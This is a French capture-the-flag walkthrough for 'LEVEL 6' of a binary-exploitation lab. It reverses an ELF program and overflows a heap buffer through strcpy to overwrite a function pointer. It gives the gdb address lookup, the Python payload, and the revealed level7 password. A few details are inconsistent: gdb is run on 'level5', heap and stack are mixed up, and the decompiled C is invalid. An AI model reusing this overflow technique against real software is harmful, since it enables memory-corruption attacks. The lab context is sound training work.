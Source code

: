 # LEVEL 6
## Walkthrough

Voici les étapes suivit pour accéder au niveau supérieur, soit le `level7`.

1. Une fois connecté à la VM sur le `level6`, l'on retrouve un fichier `level6` situé à la racine du dossier utilisateur. Ce dernier s'avère être de nouveau un exécutable ELF (Executable and Linkable Format).

2. On extrait ce fichier sur la machine host soit en utilisant la commande `scp` soit en utilisant un logiciel créer à cet effet.

	```sh
	> scp -P 4242 level6@127.0.0.1:level6 /path/on/machine/host
	```

2. On ouvre ensuite ce fichier dans Ghidra et après analyse, on obtient le désassemblage ci-dessous (que l'on refactorise pour plus de clarté).

    ```sh
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>
	#include <unistd.h>
	#include <sys/types.h>

    void n(void)
	{
		system("/bin/cat /home/user/level7/.pass");
		return;
	}

	void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)
	{
		puts("Nope");
		return;
	}

	void main(int argc, char** argv)
	{
		char *__dest;
		void **ppcVar1;

		__dest = (char *) malloc(64); # 0x40 = 64 decimal
		ppcVar1 = (void**) malloc(4); # 0x4 = 4 decimal
		*ppcVar1 = m;
		strcpy(__dest, argv[1]);
		void (**ppcVar1)();
		return;
	}
	```

	À partir de ce désassemblage, on en déduit que le programme contient 3 fonctions : la fonction `main`, la fonction `m` et la fonction `n`.

    Dans un premier temps, la fonction main prend en entrée deux paramètres : `ac` de type `int` in `argv` de type `char ***`, soit les paramètres classiques d'un `main` en C . Cette dernière alloue d'abord de la mémoire pour un pointeur `__dest` de `64 octets` (`0x40`) pour stocker des données. Ensuite, elle alloue également de la mémoire pour un pointeur `ppcVar1`, cette fois-ci de `4 octets` (`0x4`). Par la suite, la fonction `main` copie le contenu de la chaîne située à l'adresse `argv[1] + 4` dans l'espace mémoire alloué pour `_dest`. Enfin, la fonction `main` appelle la fonction pointée par `*ppcVar1`, soit la fonction `m`.

    Dans un deuxième temps, la fonction `m` prend cinq paramètres, mais elle n'utilise aucun d'entre eux. En fin de compte, la fonction se contente simplement d'afficher `Nope` dans la sortie standard à l'aide de la fonction `puts` et d'effectuer un `return`.

    Enfin, la fonction `n`, qui ne prends aucun paramètre, se contente, elle, d'appeler la commande système `cat` pour afficher le contenu du fichier `/home/user/level7/.pass`, soit le mot de passe nécessaire pour passer au niveau suivant.

4. L'exploitation de cet exécutable semble de fait assez claire : il va falloir remplacer l'adresse de `m` par celle de `n` dans la variable `ppcVar1` se trouvant dans le `main`. Pour cela, on va devoir `buffer overflow` le `malloc(64)` avec `64 bytes` pour atterrir dans le `malloc(4)` et y écrire l'adresse de `n`. Plus précisément, l'on va exploiter la fonction `strcpy` utilisé pour copier `argv[1]` dans le premier `malloc` : en mettant une valeur trop grande dans `argv[1]` on finit par `buffer overflow` le premier `malloc` et du coup, on arrive dans le second. Ainsi, ici, il ne s'agit non pas de `buffer overflow` la `heap` , mais plutôt la `stack`.

5. Du coup, on récupère l'adresse de la fonction `n` en lançant `gdb` sur l'exécutable `level5` et en exécutant la commande `info function`.

    ```sh
    > gdb level5
    > info function
    [...]
		0x08048454  n
		0x08048468  m
		0x0804847c  main
	[...]
    ```

    Ainsi l'adresse de la fonction `n` s'avère être `0x08048454`.

6. À présent, il va falloir déterminer de combien de `bytes` il va falloir pour réaliser notre `buffer overflow`. Sachant ici qu'il va falloir `buffer overflow` la `heap`, il est important de prendre en compte l'alignement des variables au sein cette dernière. Généralement, la fonction `malloc` ajoute un décalage d'alignement de `8 bytes` entre chaque variable de la `heap`. On va donc devoir `buffer overflow` avec `72 bytes` et non `64 bytes`.

7. Maitenant que l'on a l'adresse de la fonction `n` et le nombre de `bytes` a utilisé pour réaliser notre `buffer overflow` l'on peut commencer à générer notre payload.

    ```sh
    > python -c 'print "A" * 72 + "\x54\x84\x04\x08"'
    ```

	On a :
    - `"A" * 72`: `64 bytes` pour le premier `malloc` plus `8 bytes` pour l'alignement des variables dans la `heap`, soit `72 bytes` au total ;
    - `\x54\x84\x04\x08`: L'adresse de la fonction `n` en format little-endian.

8. Il ne manque plus qu'à exécuter le programme avec la payload que l'on vient de générer pour que la fonction `n` soit appelé à la place de la fonction `m` et d'ainsi effectuer un `cat` sur le mot de passe du niveau suivant, soit le `level7`.

    ```sh
    > ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
    f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
    ```

9. On peut à présent passer au niveau supérieur en exécutant la commande `su level7` et en y spécifiant le mot de passe qui vient d'être trouvée.

    ```sh
    > su level7
    Password :
	> f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
    ```
